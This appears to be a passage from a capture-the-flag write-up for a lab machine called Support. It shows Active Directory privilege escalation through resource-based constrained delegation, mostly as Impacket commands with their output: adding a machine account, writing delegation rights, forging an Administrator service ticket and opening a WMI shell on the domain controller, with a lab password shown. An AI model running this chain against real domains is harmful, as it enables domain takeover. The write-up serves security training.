 ## Privilege Escalation

BloodHound:

![image-20240312020958927](./Support.assets/image-20240312020958927.png)

### Resource-Based Constrained Delegation

support user who is able to add a new computer account (addcomputer.py) -> add write delegation (rbcd.py) -> get a service ticket which allows created computer account to impersonate admin (getST.py)

```console
└─╼$ impacket-addcomputer -computer-name 'QWE$' -computer-pass 'imqwe' -dc-host support.htb -domain-netbios support.htb 'forest.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account QWE$ with password imqwe.

└─╼$ impacket-rbcd -delegate-from 'QWE$' -delegate-to 'DC$' -action 'write' -dc-ip $IP 'forest.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] QWE$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     QWE$         (S-1-5-21-1677581083-3380853377-188903654-6101)

└─╼$ impacket-getST -spn 'http/dc.support.htb' -impersonate 'Administrator' -dc-ip dc.support.htb 'support.htb/QWE:imqwe'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

└─╼$ export KRB5CCNAME=Administrator.ccache; impacket-wmiexec -k -no-pass support.htb/administrator@dc.support.htb -dc-ip $IP -shell-type powershell
Impacket v0.11.0 - Copyright 2023 Fortra

```